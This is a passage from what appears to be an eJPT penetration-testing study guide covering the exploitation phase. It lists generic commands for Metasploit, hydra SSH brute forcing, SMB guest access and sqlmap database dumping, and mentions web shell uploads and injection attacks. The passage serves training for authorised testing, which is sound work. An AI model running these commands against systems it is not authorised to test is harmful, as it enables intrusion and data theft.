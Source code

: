 ### Vulnerability Assessment Deliverables:
- Prioritized vulnerability list
- Risk assessment matrix
- Proof-of-concept preparations
- Exploitation strategy planning

## 🧪 Phase 3: Exploitation (eJPT Focus: 60% - Network + Web Application Testing)

### Network Service Exploitation:
```bash
# Metasploit framework usage
msfconsole
search service_name
use exploit/path/to/exploit
set RHOSTS target_ip
set payload payload_name
exploit

# Manual exploitation techniques
# FTP exploitation
ftp target_ip                          # Anonymous access testing
# SSH brute force
hydra -L users.txt -P passwords.txt ssh://target_ip
# SMB exploitation
smbclient //target_ip/share$ -U guest
```

### Web Application Exploitation:
```bash
# SQL injection testing
sqlmap -u "http://target_ip/page.php?id=1" --dbs
sqlmap -u "http://target_ip/page.php?id=1" -D database --tables
sqlmap -u "http://target_ip/page.php?id=1" -D database -T table --dump

# File upload vulnerabilities
# Upload web shells to compromised applications
# Directory traversal attacks
# Cross-site scripting (XSS) exploitation

# Command injection
# Test for OS command injection in web forms
# Exploit file inclusion vulnerabilities
```

### Exploitation Success Criteria:
- Remote code execution achieved
- Database access obtained
- Web application compromise
- Initial foothold establishment
